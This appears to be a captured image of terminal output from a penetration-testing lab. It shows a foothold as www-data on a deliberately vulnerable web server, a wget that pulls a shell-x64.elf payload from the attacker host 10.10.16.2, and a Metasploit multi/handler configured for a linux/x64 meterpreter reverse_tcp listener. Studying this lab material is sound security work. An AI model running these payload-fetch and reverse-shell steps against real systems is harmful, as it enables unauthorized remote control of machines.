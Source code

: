 ```
www-data@d1d6a9361621:/$ cd /var/www
cd /var/www
www-data@d1d6a9361621:/var/www$ wget http://10.10.16.2/shell-x64.elf
wget http://10.10.16.2/shell-x64.elf
--07:38:56--  http://10.10.16.2/shell-x64.elf
           => `shell-x64.elf'
Connecting to 10.10.16.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]

    0K                                                       100%   31.28 MB/s

07:38:56 (31.28 MB/s) - `shell-x64.elf' saved [250/250]
```

```
www-data@d1d6a9361621:/var/www$ ls
ls
dav
dvwa
index.php
mutillidae
phpMyAdmin
phpinfo.php
shell-x64.elf
test
tikiwiki
tikiwiki-old
twiki
```

```
root@attackdefense:~# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.16.2
LHOST => 10.10.16.2
msf6 exploit(multi/handler) > run

```